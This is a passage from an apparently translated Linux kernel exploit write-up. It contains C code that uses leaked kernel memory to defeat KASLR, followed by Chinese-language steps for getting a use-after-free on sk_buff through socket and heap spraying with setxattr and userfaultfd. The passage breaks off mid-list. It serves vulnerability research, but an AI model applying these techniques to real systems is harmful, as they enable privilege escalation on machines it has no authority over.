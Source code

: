         owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
                owner_cred, OWNER_CRED_RD_LOCATION);

        sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
                sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

        kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
        printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);

<div lang="chinese" dir="ltr" class="mw-content-ltr">
在 sk_buff 上實現 Use-after-free
---------------------------------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
Linux內核中與網絡相關的緩衝區用struct sk_buff表示，這個對像中有skb_shared_info與destructor_arg，可以用於控制流劫持。網絡數據和skb_shared_info被放置在由sk_buff.head指向的同一個內核內存塊中。因此，在用戶空間中創建一個2800字節的網絡數據包會使skb_shared_info被分配到kmalloc-4k塊緩存中，mem_cgroup對像也是如此。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
我構建了以下步驟：

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
1.使用socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)創建一個客戶端套接字和32個服務器套接字

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
2.在用戶空間中準備一個2800字節的緩衝區，並用0x42對其memset()

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
3.用sendto()將這個緩衝區從客戶端套接字發送到每個服務器套接字，用於在kmalloc-4k中創建sk_buff對象。在每個可用的CPU上使用\`sched_setaffinity()

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
4.對vsock_sock執行任意讀取過程

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
5.計算可能的sk_buff內核地址為sk_memcg加4096(kmalloc-4k的下一個元素)

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
6.對這個可能的sk_buff地址執行任意讀

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
7.如果在網絡數據的位置找到0x42424242424242lu，則找到真正的sk_buff，進入步驟8。否則，在可能的sk_buff地址上加4096，轉到步驟6

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
8.sk_buff上執行32個pthreads的setxattr()&userfaultfd()堆噴射，並把它們掛在pthread_barrier上
